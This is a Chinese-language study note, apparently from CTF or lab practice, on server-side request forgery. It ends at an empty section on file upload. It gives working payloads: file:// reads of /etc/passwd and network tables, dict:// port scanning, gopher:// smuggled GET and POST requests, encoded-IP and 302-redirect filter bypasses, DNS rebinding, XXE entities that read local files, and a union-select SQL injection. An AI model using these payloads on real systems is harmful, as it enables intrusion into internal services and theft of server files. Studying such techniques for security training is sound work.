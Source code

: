 

## 1.SSRF信息收集File伪协议

file:///etc/passwd 读取文件passwd

file:///etc/hosts 显示当前操作系统网卡的IP

file:///proc/net/arp 显示ARP缓存表（寻找内往下其他主机）

可以访问一个ip地址，挨个发送APR请求

file:///proc/net/fib_trie 显示当前网段路由信息

## 2.SSRF信息收集Dict伪协议

dict://167.250.250.$1$:$80$

爆破开启的端口

## 3.SSRF信息收集HTTP伪协议

http://172.250.250.1/$index$.php

爆破存在的页面

## 4.SSRF利用gopher伪协议学习

**gopher默认不提交第一位，第一位需要加上填充符**

### 1.get提交

![image-20240401151236777](../images/image-20240401151236777.png)

#### 1.直接提交

构造代码：

```
GET /name.php HTTP/1.1
Host: 172.250.250.4
```

（这里会有个换行）

将头部内容URL编码

gopher://172.250.250.4:80/_GET%20/name.php%3fname=benben%20HTTP/1.1%0d%0AHost:%20172.250.250.4%0d%0A

#### 2.BurpSuite抓包

提交：gopher://172.250.250.4:80/_

BurpSuite抓包：![image-20240401154607421](../images/image-20240401154607421.png)

把构造的代码粘贴在url后面，做两次URL编码进行提交

![image-20240401164505250](../images/image-20240401164505250.png)

### 2.post提交

需要保留的头部信息：

```
POST /name.php HTTP/1.1
Host: 172.250.250.4
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

name=jianjian
```

（构造代码）

BurpSuite抓包进行两次URL编码然后上传

## 5.SSRF回环地址的绕过

http://127.0.0.1/flag.php被过滤

将127.0.0.1转换为其他进制

八进制 ：177000000001或点分式：0177.0000.0000.0001

十六进制0x4F000001

十进制2130706433

## 6.SSRF之302重定向绕过

对本地地址或者内网地址有过滤

访问公网服务器ip，公网下存在index.php

index.php的内容

<?php

header('Location:http://127.0.0.1/flag.php')



访问公网下的index.php相当于访问127.0.0.1/flag.php

## 7.SSRF之DNS重绑定绕过

https://lock.cmpxchg8b.com/rebinder.html

TTL最理想的设置为0，在第一次解析之后，立马换成我们想要访问的DNS服务器，有概率成功

http://DNS域名/flag.php

## 8.SSRF进行XXE漏洞利用

### XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

 

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



### 利用SSRF进行XXE漏洞

使用gopher伪协议

需要注意的是post提交的是哪个页面，有可能不是index.php

```xml
POST /doLogin.php HTTP/1.1
Host: 172.250.250.6
contentType: application/xml;charset=utf-8
Content-Length: 131

<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///etc/passwd"> ]><user><username>&admin;</username><password> admin</password></user> 
```

## 9.SSRF进行SQL注入

使用<font color=Red>--%20</font>>注释

使用hackbar提交时会对已经输入的内容进行一次URL编码,把%20替换成%2520

SSRF需要两次URL编码 

![image-20240407203908192](../images/image-20240407203908192.png)

### gopher提交

```xml
gopher://172.250.250.11:80/_POST /Less-11/index.php HTTP/1.1
HOST:172.250.250.11
Content-Type:application/x-www-form-urlencoded
Content_Length: 53
Uname=-1' union select 1,2 #&passwd=123&submit=Submit
```

## 10.SSRF进行文件上传漏洞

